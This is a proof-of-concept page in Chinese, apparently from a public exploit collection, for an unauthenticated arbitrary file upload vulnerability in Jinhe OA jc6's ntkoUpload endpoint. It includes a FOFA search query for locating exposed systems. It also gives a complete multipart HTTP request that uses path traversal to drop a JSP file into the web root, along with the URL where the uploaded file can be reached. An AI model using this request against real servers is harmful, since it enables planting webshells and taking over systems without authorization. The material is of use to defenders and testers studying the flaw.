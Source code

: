 ## 金和OA_jc6_ntko-upload任意文件上传漏洞

金和OA jc6系统ntkoUpload接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。

## fofa
```
app="金和网络-金和OA"
```

## poc
```
POST /jc6/ntkoUpload/ntko-upload!upload.action HTTP/1.1
Host: you_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Length: 392
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----zqulxi4ku42pfmoelvc0
Connection: close

------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="filename"

../../../../upload/xicxc2sv1n.jsp
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="upLoadFile"; filename="xicxc2sv1n.jpg"
Content-Type: image/jpeg

<% out.println(111*111); %>
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="Submit"

upload
------zqulxi4ku42pfmoelvc0--
```

![image](https://github.com/wy876/POC/assets/139549762/5961c079-2af6-4449-aa69-b5cb30ecb4b1)

上传文件路径：
http://you_ip/upload/xicxc2sv1n.jsp


![image](https://github.com/wy876/POC/assets/139549762/8fd1879a-11ab-4dde-9821-665d3e6ceb49)
